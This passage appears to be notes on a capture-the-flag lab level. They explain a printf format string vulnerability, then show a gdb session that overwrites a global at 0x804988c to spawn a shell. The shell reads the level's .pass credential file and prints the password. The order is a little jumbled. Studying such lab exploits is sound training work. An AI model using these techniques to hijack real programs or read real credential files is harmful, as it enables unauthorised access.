 Format String Vulnerability: 
Using printf(buffer) directly means a user can inject format specifiers (%x, %s, etc.).

Potential Exploit Path: If attacker controls buffer and global at 0x804988c, it may allow arbitrary code execution via the system() call.

level3@RainFall:~$ gdb ./level3 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) b v
Breakpoint 1 at 0x80484ad
(gdb) r
Starting program: /home/user/level3/level3 

Breakpoint 1, 0x080484ad in v ()
(gdb) set *(int*)0x804988c = 0x40
(gdb) continue
Continuing.
lo
lo
Wait what?!
$ cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

Then it calls printf() directly with the user input as the format string — this introduces a format string vulnerability.